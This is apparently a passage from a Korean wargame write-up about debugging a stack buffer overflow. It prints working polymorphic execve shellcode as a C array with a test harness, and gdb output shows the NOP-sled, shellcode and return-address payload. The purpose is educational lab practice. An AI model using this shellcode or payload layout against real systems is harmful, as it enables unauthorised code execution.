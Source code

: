 ```c
  8048073:	 99                   	 cltd   
  8048074:	 b0 0b                	 mov    $0xb,%al
  8048076:	 cd 80                	 int    $0x80


*/

#include "stdio.h"

char shellcode[] =	 "\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
					"\x6c\x0e\xff\x01\x80\xe9\x01\x75"
					"\xf6\xeb\x05\xe8\xea\xff\xff\xff"
					"\x32\xc1\x51\x69\x30\x30\x74\x69"
					"\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
			 		"\x54\x8a\xe2\x9a\xb1\x0c\xce\x81";

int main()
{
    printf("Polymorphic Shellcode - length: %d\n",strlen(shellcode));
    (*(void(*)()) shellcode)();
    
    return 0;
}

// milw0rm.com [2009-08-11]
```

## 3. 공격실패

이번 문제와 동일하게 stack 을 확인해서 선택한 `LR` 은 `0xbffffd54`.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage8-1.png)


```bash
0xbffffd36:      ""
0xbffffd37:      "i686"
0xbffffd3c:      "/home/orge/", '\220' <repeats 50 times>, "ë\021^1É±2\200l\016 \001\200é\001uöë\005èê   2ÁQi00tii0cjo\212äQT\212â\232±\fÎ\201"
0xbffffdaa:      'A' <repeats 44 times>, "Tý ¿"
0xbffffddb:      ""                            
```

gdb 로 debugging를 해보면 shellcode 로 jump 하는 것까지 정상적으로 되는데, 이상하게 실제 실행을 하면 계속 fault 가 나는 것이다.  그렇다면.. gdb 실행환경과 실제 동작환경에서 stack 이 다르게 잡히면서 `LR` 이 달라지는 것이 아닐까 ?

## 4. 실행환경과 GDB 실행 시 명령어 위치 확인

소스 맨 앞에 `argv[0]` 위치를 찍는 함수를 넣고 gdb와 실제 실행환경에서 실행하여 값을 확인하여 보자.

```c
        printf("argv[0] : %p\n", argv[0]);     
```
